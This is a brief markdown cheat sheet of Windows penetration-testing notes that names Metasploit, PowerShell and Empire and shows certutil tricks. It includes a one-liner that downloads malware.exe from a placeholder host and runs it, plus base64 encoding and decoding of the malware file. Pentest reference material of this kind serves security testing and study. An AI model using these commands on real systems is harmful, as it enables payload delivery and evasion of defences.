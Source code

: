 # Windows Pentest Notes
## Table of Contents
[Useful Tools](#Useful-Tools)

[Certutil](#Certutil-abuse)




### Useful Tools
`metasploit` of course

and `powershell` is always your best friend

`empire` for creating malicious pwershell script, avalible on [github](https://github.com/EmpireProject/Empire)

### Certutil abuse
#### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
#### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
#### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
